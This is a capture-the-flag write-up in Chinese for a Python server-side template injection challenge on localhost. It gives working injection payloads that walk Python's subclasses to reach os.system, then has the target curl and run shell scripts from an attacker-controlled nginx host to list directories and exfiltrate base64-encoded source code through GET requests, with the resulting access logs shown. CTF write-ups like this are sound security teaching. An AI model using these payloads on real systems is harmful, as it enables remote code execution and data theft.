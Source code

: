 # python Vulnerable SSTI

## Description

SSTI 攻擊是指在應用程序中存在一個漏洞，攻擊者可以通過輸入特定的字符串來執行任意代碼。這種漏洞通常發生在模板引擎中，當用戶輸入的數據被直接插入到模板中並且沒有進行足夠的過濾或驗證時，攻擊者就可以利用這個漏洞來執行任意代碼。

## Solution

依照題目名稱 SSTI 就可以得到攻擊方法的暗示。

### 嘗試最簡單的 SSTI 攻擊

```
http://localhost:8000/?password={{3*3}}
```

得到 `password is wrong: 9` 代表 python 模板漏洞存在

### 嘗試去抓 python 內部變數

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()}}
```

可以看到一大堆 python 物件供使用，現在要想辦法找到 `os` 物件

利用 `node .\fuzzClass.mjs` 來 fuzz 找到 `os` 物件的 index 是 `127`

### 抓抓看 OS

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__.__name__}}
```

得到 `password is wrong: os` 代表成功找到 `os` 物件

### 嘗試去執行命令

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22ls%22)}}
```

嘗試執行命令 `ls`，但沒有得到結果，因為模板不會回傳 stdout，而是會回傳 `password is wrong: 0`

裡面的 0 是 command 回傳值，而不是 stdout

### 因此要嘗試用 http 帶出結果

額外在 docker compose 中新增 nginx 服務，並且撰寫攻擊用 shell script

- find.sh: 可以查找目錄，拿來找到 flag 檔案
- get.sh: 讀取檔案，取得 flag 內容

### 找到可疑 flag 檔案

此時 find.sh 的搜索目標是 `a=$(ls / | paste -s -d' ' | sed 's/ /%20/g')` 根目錄，因為會使用 get request 帶出 string，所以要屏蔽特殊符號

讓遠端下載 script

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/find.sh%20%3E%20find.sh%22)}}
```

讓遠端執行 script

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20find.sh%22)}}
```

在 nginx 處看到根目錄結構:

```
172.18.0.3 - - [15/May/2025:17:07:40 +0000] "GET /find.sh HTTP/1.1" 200 65 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:07:56 +0000] "GET /app%20bin%20boot%20dev%20etc%20find.sh%20home%20lib%20lib64%20media%20mnt%20opt%20proc%20root%20run%20sbin%20srv%20sys%20tmp%20usr%20var HTTP/1.1" 404 153 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:12:32 +0000] "GET /find.sh HTTP/1.1" 200 68 "-" "curl/7.64.0" "-"
```

可以看到 `app` 目錄最特別，這是 python docker 常見的程式目錄。

因此修改 find.sh 脚本，將其內容修改為 `a=$(ls /app/ | paste -s -d' ' | sed 's/ /%20/g')` 找 python 主程式。

重複抓一次，用 find.sh 抓取 python 主程式名稱

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/find.sh%20%3E%20find.sh%22)}}
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20find.sh%22)}}
```

得到 `server.py` 主程式。

```
172.18.0.3 - - [15/May/2025:17:15:54 +0000] "GET /find.sh HTTP/1.1" 200 69 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:15:59 +0000] "GET /Dockerfile%20docker-compose.yml%20entrypoint.sh%20server.py HTTP/1.1" 404 153 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:17:20 +0000] "GET /get.sh HTTP/1.1" 200 44 "-" "curl/7.64.0" "-"
```

### 最後用 get 讀出主程式

這裡利用 base64 編碼，將 `server.py` 讀出。

下載 `get.sh`，並執行。

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/get.sh%20%3E%20get.sh%22)}}
```

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20get.sh%22)}}
```

得到主程式 base64 編碼

![alt text](image.png)

解碼後，得到 flag

![alt text](image-1.png)
